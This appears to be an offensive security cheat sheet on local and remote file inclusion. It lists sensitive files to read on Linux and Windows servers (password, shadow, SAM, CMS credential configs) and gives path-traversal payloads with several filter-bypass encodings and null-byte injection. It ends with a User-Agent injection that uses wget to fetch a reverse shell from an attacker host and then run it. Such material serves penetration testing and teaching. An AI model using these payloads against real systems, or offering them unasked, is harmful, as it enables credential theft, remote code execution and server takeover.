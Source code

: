 # Local and remote file inclusion
Local file inclusion (LFI) vulnerabilities allow an attacker to read local files on the web server using malicious web requests. These files can include web configuration files, log files, password files and other sensitive system data. LFI can also be used for remote code execution (RCE). In most cases, this vulnerability is due to poor input sanitization.

Remote file inclusions are similar, but the attacker is taking advantage of the web server's ability to call local files, and using it to upload files from remote servers. These remote files can be malicious code that executes in the context of the web server user (e.g. www-data).

## Interesting files
If an LFI vulnerability exists, look for these files:

### Linux
Linux system files:
```
/etc/passwd
/etc/shadow
/etc/issue
/etc/group
/etc/hostname
```
**Log files**
Potentially interesting logfiles:
```
/var/log/apache/access.log
/var/log/apache2/access.log
/var/log/httpd/access_log
/var/log/apache/error.log
/var/log/apache2/error.log
/var/log/httpd/error_log
```
**CMS configuration files**
Content management system configuration files:
```
WordPress: /var/www/html/wp-config.php
Joomla: /var/www/configuration.php
Dolphin CMS: /var/www/html/inc/header.inc.php
Drupal: /var/www/html/sites/default/settings.php
Mambo: /var/www/configuration.php
PHPNuke: /var/www/config.php
PHPbb: /var/www/config.php
```
### Windows
Files that may exist on Windows systems:
```
c:\WINDOWS\system32\eula.txt
c:\boot.ini  
c:\WINDOWS\win.ini  
c:\WINNT\win.ini  
c:\WINDOWS\Repair\SAM  
c:\WINDOWS\php.ini  
c:\WINNT\php.ini  
c:\Program Files\Apache Group\Apache\conf\httpd.conf  
c:\Program Files\Apache Group\Apache2\conf\httpd.conf  
c:\Program Files\xampp\apache\conf\httpd.conf  
c:\php\php.ini  
c:\php5\php.ini  
c:\php4\php.ini  
c:\apache\php\php.ini  
c:\xampp\apache\bin\php.ini  
c:\home2\bin\stable\apache\php.ini  
c:\home\bin\stable\apache\php.ini
```
The system and SAM files might be in different locations. As well, the path might be case-sensitive, even though it's Windows. 
```
# SYSTEMROOT is usually windows
windows\repair\SAM
%SYSTEMROOT%\repair\SAM
%SYSTEMROOT%\System32\config\RegBack\SAM
%SYSTEMROOT%\System32\config\SAM
%SYSTEMROOT%\repair\system
%SYSTEMROOT%\System32\config\SYSTEM
%SYSTEMROOT%\System32\config\RegBack\system
```
## Techniques

### Basic
Assuming you are on a Linux system, test if you can display `/etc/passwd` by moving back 5 directory levels:
```
http://host/?page=../../../../../etc/passwd
```
Even if this doesn't work, it doesn't mean that the website is immune to path traversal. When filtering input, developers will often prevent the use of forward slashes, but not backslashes or encoded characters.

### Nesting traversal sequences
If the application is attempting to sanitize user input by removing traversal sequences, but does not apply this filter recursively, then it may be possible to bypass the filter by placing one sequence within another:

```
....//

....\/

..../\

....\\
```

### URL-encoded
Encoding all the slashes and dots in your path traversal could bypass input filters:
 
```
dot             %2e
forward slash   %2f
backslash       %5c
```
Example: 
```
 %2e%2e%5c%2e%2e%5c%2e%2e%5c%2e%2e%5c%2e%2e%5cetc%5cpasswd
```

### Double URL-encoded
Another encoding method:
```
dot             %252e
forward slash   %252f
backslash       %255c
```
Example:
```
%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252fetc%252fpasswd
```
### Overlong UTF-8 encoding
You can also use the illegal Unicode payload type in Burp Intruder for this technique:

```
dot             %c0%2e  %e0%40%ae  %c0ae etc.
forward slash   %c0%af  %e0%80%af  %c0%2f etc.
backslash       %c0%5c  %c0%80%5c  etc.
```

### Null-byte injection
Some applications check whether the user-supplied file name ends in a particular file type or set of file types, and reject attempts to access anything else. A null byte terminator (`%00` or `0x00` in hex) added to the LFI/RFI parameter will stop processing immediately, so that any bytes following it are ignored.

In the following code example, the extension `.php` added to the file request variable `$file`:
```
$file = $_GET['page'];
require_once("/var/www/$file.php");
```
Requesting `/etc/passwd` in this case will not work because the request becomes `passwd.php` resulting in a 404 error. However, if we add a null byte to the passwd file name it will terminate at the end of `passwd` and discard the remaining bytes:
```
http://website/page=../../../etc/passwd%00
```
### proc/self/environ method
If you're able to request `/proc/self/environ` using LFI, you might be able to get a shell by downloading a remote file with reverse shellcode and run it on the system (e.g. [php reverse shell](http://pentestmonkey.net/tools/web-shells/php-reverse-shell)). You'll need to intercept the `/proc/self/environ` request and replace HTTP request header `User Agent` with the following:
```
<?system('wget http://[attack host]]/reverseshell.txt -O shell.php');?>
```
Then execute the shell by calling the URL where it was uploaded:
```
http://[attack host]/folder/shell.php
```

## Further reading
* [Local File Inclusion by xapax](https://xapax.gitbooks.io/security/content/local_file_inclusion.html)
* [Bypassing filters for path traversal](https://tipstrickshack.blogspot.com/2013/02/how-to-bypassing-filter-to-traversal_8831.html)
* [LFI to RCE with Perl script](https://www.exploit-db.com/papers/12992/)
